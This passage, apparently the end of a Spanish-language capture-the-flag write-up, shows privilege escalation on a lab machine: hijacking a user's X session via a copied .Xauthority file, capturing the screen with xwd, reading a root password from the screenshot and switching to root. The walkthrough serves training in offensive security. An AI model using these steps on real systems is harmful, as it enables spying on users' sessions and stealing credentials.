 ```bash
$export XAUTHORITY=/tmp/.Xauthority
```

- Y con todo esto hecho ya podremos sacar una captura de pantalla del usuario `"ross"` el cual está conectado en el sistema, haciendo uso del comando que podemos encontrar en Hacktricks:

```bash
$xwd -root -screen -silent -display :0 > screenshot.xwd
```

- Transferimos este archivo a nuestra máquina atacante.

- Convertimos el archivo en `PNG`:

```bash
$convert screenshot.xwd screenshot.png
```

- Abrimos la imagen y podemos ver en la captura una credencial para el usuario "root", el cual usamos para `pivotar` al usuario root:

```bash
$su root
```

- Seremos `root` y podremos ver la flag en el directorio "/root"
